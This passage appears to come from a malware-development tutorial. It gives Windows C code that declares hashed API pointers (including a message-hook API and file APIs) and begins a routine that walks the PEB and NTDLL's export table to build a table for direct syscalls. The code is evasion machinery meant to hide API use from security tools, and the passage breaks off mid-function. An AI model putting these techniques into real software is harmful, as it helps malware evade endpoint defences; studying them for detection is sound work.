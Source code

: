 ```
typedef HANDLE(WINAPI* fnCreateFileW)(LPCWSTR lpFileName, DWORD dwDesiredAccess, DWORD dwShareMode, LPSECURITY_ATTRIBUTES lpSecurityAttributes, DWORD dwCreationDisposition, DWORD dwFlagsAndAttributes, HANDLE hTemplateFile);

typedef BOOL(WINAPI* fnSetFileInformationByHandle)(HANDLE hFile, FILE_INFO_BY_HANDLE_CLASS FileInformationClass, LPVOID lpFileInformation, DWORD dwBufferSize);

typedef BOOL(WINAPI* fnCloseHandle)(HANDLE hObject);

```
### **API\_HASHING Structure**

Next, a new structure `API_HASHING` is defined in `Common.h` and is used to store the addresses of WinAPIs used, making them more accessible for use within the implementation's functions.

**Common.h**


```
typedef struct _API_HASHING {

	fnGetTickCount64                pGetTickCount64;
	fnOpenProcess                   pOpenProcess;
	fnCallNextHookEx                pCallNextHookEx;
	fnSetWindowsHookExW             pSetWindowsHookExW;
	fnGetMessageW                   pGetMessageW;
	fnDefWindowProcW                pDefWindowProcW;
	fnUnhookWindowsHookEx           pUnhookWindowsHookEx;
	fnGetModuleFileNameW            pGetModuleFileNameW;
	fnCreateFileW                   pCreateFileW;
	fnSetFileInformationByHandle    pSetFileInformationByHandle;
	fnCloseHandle                   pCloseHandle;

}API_HASHING, * PAPI_HASHING;

```
### **Updating VX\_Table**

The `GetModuleHandleH` and `GetProcAddressH` functions must be used to initialize the elements in the `API_HASHING` structure. The `InitializeSyscalls` function then uses these functions to initialize the `VX_TABLE` structure, which is used to call syscalls.


```
// ...

API_HASHING g_Api = {0};


BOOL InitializeSyscalls() {

	// Get the PEB
	PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
	PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
	if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
		return FALSE;

	// Get NTDLL module
	PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

	// Get the EAT of NTDLL
	PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
	if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
```